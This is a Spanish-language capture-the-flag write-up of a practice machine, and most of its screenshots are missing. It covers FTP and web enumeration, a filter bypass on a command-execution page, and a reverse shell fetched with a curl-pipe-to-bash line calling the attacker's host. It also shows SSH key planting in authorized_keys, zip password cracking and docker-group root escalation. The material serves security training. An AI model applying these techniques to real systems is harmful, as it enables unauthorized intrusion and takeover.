

Primero de todo, vamos a realizar un escaneo de los puertos de la dirección ip de la máquina víctima:
<div style="text-align: left;">
  <table>
    <tr>
      <td style="vertical-align: top;">
        <div style="text-align: center;">
          
        </div>
      </td>
      <td style="vertical-align: top;">
        <div style="text-align: center;">
          
        </div>
      </td>
    </tr>
  </table>
</div>

<div style="text-align: center;">
  
</div>
Vemos que tiene abierto los puertos <strong>21</strong> (conexión servicio FTP), <strong>22</strong> (conexión servicio SSH) y <strong>80</strong> (página web no encriptada "http").

Primero, vamos a iniciar una conexión anónima en el servidor *FTP*, debido a que permite dicho tipos de conexiones:
<div style="text-align: center;">
  
</div>
Vemos que al iniciar sesión, y realizar un listado de los archivos encontramos un fichero <strong>note.txt</strong> que podemos descargar en nuestra máquina mediante el comando `get`.
<div style="text-align: center;">
  
</div>
Vemos que el fichero contiene dos usuarios <strong>Anurodh</strong> y <strong>Apaar</strong>.

Como aquí no podemos seguir haciendo nada, vamos a ver que encontramos la página web:
<div style="text-align: center;">
  
</div>

Como de costumbre, no encontramos nada a simple vista, por lo que vamos a realizar *fuzzing web* con `gobuster`:
<div style="text-align: center;">
  
</div>

Encontramos un directorio oculto, llamado `/secret` que si accedemos a él encontramos un campo donde podemos ejecutar código, por lo que estamos ante un *RCE*:
<div style="text-align: center;">
  
</div>
Si ejecutamos un comando más interesante como puede ser `cat /etc/passwd` obtenemos como resultado:
<div style="text-align: center;">
  
</div>
Podemos interceptar la petición del CRE mediante *burpsuite*, donde podemos enviar los comandos pero intentando bypassear la "protección", por ejemplo:
<div style="text-align: center;">
  
</div>
Hemos hecho un bypass del comando `ls -la` escapando la s, por lo que podemos llevarlo a la práctica con otros comandos:

<table>
  <tr>
    <td style="vertical-align:top">
      <div style="text-align: center;">
      
      </div>
    </td>
    <td style="vertical-align:top; width:55%">
      <div style="text-align:center;">
        
      </div>
    </td>
  </tr>
</table>

Vemos que si escapamos el comando `cat /index.php` encontramos los comandos que no se pueden ejecutar de manera normal.
Por lo que, podemos intentar ejecutar una <em>reverse shell</em> desde la página web:
<div style="text-align:center;">
  
</div>

Ahora, en la web vamos a ejecutar el comando:
<div style="text-align:center;">

```bash
curl http://ip_nuestra/nombre_shell | ba\sh 
```

</div>
para poder obtener la *reverse shell* y seguido ejecutarla escapando el comando `bash`.

<table style="text-align:center">
  <tr>
    <td style="vertical-align:top; width:50%">
      <div style="text-align: center;">
        
      </div>
      Como resultado, tenemos que al escuchar y ejecutar la shell, estamos dentro del servidor.
    </td>
    <td style="vertical-align:top; width:50% ">
      <div style="text-align:center;">
        
      </div>
    </td>
  </tr>
</table>

Ahora dentro, podemos intentar escalar privilegios. Por lo que podemos hacer uso del comando -> `sudo -l` para obtener los comandos que puede ejecutar como root el usuario *www-data*.
<div style="text-align:center;">
  
</div>
En efecto, vemos que el comando `/home/apaaar/.helpline.sh` pueden ejecutarlos todos los usuarios del sistema.
Como es un script escrito en <strong>bash</strong> podemos ver su contenido:

<div style="text-align:center;">
  
</div>

Si ejecutamos el comando especificando el usuario `-u apaar` y en el mensaje escribimos `/bin/bash` (ejecución de una terminal), esta se ejecutará como <strong>apaar</strong> (ya que hemos especificado su usuario).

<table style="text-align:left">
  <tr>
    <td style="vertical-align:top; width:50%">
      Y vemos que lo que realiza es una interacción, donde nos pide un nombre y un mensaje.
      <div style="text-align:center;">
        
      </div>
    </td>
    <td style="vertical-align:top; width:50% ">
      Tratamiento de la tty (para poder tener una CLI más amigable):

  ```bash
  python3 -c 'import pty; pty.spawn("/bin/bash")'
  (ctrl + Z)
  stty raw -echo;fg
  stty rows 29 columns 126
  export TERM=screen
  ```
  </td>
  </tr>
</table>

Procedemos a buscar la flag y la tenemos.

<div style="text-align:center;">
  
</div>

Ahora, para seguir continuando con el CTF, vamos a realizar una escalada de privilegios pero ahora a root, para poder conseguir así la última flag.
Podemos realizar una búsqueda de binarios (spoiler, no va a servir de nada).

Ya que estamos dentro del servidor podemos echarle un ojo a los puertos que tiene abierto y vemos que tiene en escucha uno muy raro -> `127.0.0.1:9001`.

<table style="text-align:left">
  <tr>
    <td style="vertical-align:top; width:50%">
      <div style="text-align:center;">
        
      </div>
Encontramos un panel de login, que puede cuadrar con el servicio *SSH* que hay corriendo por el puerto 22, por lo que podemos buscar el <strong>id_rsa</strong> del usuario <strong>apaar</strong> para poder iniciar sesión.
    </td>
    <td style="vertical-align:top; width:50% ">
      <div style="text-align:center;">
        
      </div>
    </td>
  </tr>
</table>

Pero primero, vamos a volver a hacer *fuzzing web* a esta web:
<div style="text-align:center;">

```bash
gobuster dir -u ip_maquina:9001 -w /ruta_wordlist
```
</div>

y vemos que tenemos un directorio llamado `/images`, si accedemos a él encontramos dos archivos, el que nos interesa es el '.jpg'.
<div style="text-align:center;">
  
</div>

Ahora nos descargamos el archivo:
<div style="text-align:center;">

```bash
wget hacker-with-laptop_23-2147985341.jpg
```
</div>
Como tenemos una imagen con extensión '.jpg' podemos hacer uso de `steghide` para poder encontrar información oculta en la imagen:
<div style="text-align:center;">
  
</div>
Y esto no da un archivo llamado 'backup.zip', el cual si queremos descomprimir nos pedirá una contraseña, la cual podemos intentar romper con un ataque de fuerza bruta, con `fcrackzip`:
<div style="text-align:center;">
  
</div>
Tenemos la contraseña del '.zip', vamos a abrirlo:
<div style="text-align:center;">

```bash
unzip backup.zip
nano source_code.php
```

</div>

<div style="text-align:center;">
  
</div>

Encontramos la contraseña del otro usuario <strong>Anurodh</strong>, la cual está encriptada en base64, la desencriptamos y nos la guardamos:
<div style="text-align: center;">

```bash
echo -e "contraseña_base64" | base64 -d
```

</div>

Ahora sí, vamos a proceder a obtener las claves *id_rsa* del usuario <strong>apaar</strong>, para ello vamos al directorio donde estas se almacenan:

<div style="text-align: center;">

```bash
cd /home/apaar/.shh
```

</div>

<div style="text-align:center;">
  
</div>

Vemos que no tenemos el **id_rsa** como tal, si no que tenemos un fichero llamado 'authorized_key' que son las claves permitidas y autorizadas para poder realizar la conexión vía *SSH*.
Pero nosotros podemos crear una clave e introducirla en dicho fichero ya que tenemos permisos de escritura en el mismo.

Con `ssh-keygen` podemos crear una clave para el usuario <strong>apaar</strong> y tenemos tanto el <strong>id_rsa</strong> (apaar) como el <strong>id_rsa.pub</strong> (apaar.pub).
<div style="text-align:center;">
  
</div>


A continuación, guardamos *apaar.pub* en el fichero 'authorized_keys' y apaar en un archivo *id_rsa* en nuestra máquina y podremos realizar nuestro inicio de sesión vía *SSH*.

<table style="text-align:left">
  <tr>
    <td style="vertical-align:top; width:45%">
      <div style="text-align:center;">
        
      </div>
    </td>
    <td style="vertical-align:top; width:50% ">
    Ahora que estamos dentro y previamente obtuvimos la contraseña del usuario <strong>Anurodh</strong>, mediante el comando <code>su Anurodh</code> y su contraseña nos convertiremos en dicho usuario:
      <div style="text-align:center;">
        
      </div>
      <div style="text-align:center;">
        
      </div>
      Con el comando <code>id</code> vemos información acerca del usuario actual y vemos que pertenece al grupo <strong>docker</strong>, es decir, tiene permisos para poder ejecutar comandos Docker y puede acceder al <em>daemon</em> Docker.
    </td>
  </tr>
</table>


Podemos buscar en [GTFObins/Docker](https://gtfobins.github.io/gtfobins/docker/#shell) un exploit para escalar privilegios y en efecto, hemos escalado privilegios, ergo somos usuarios root.
<div style="text-align:center;">
  
</div>
Hemos obtenido la root flag, por lo que hemos terminado el CTF.

___
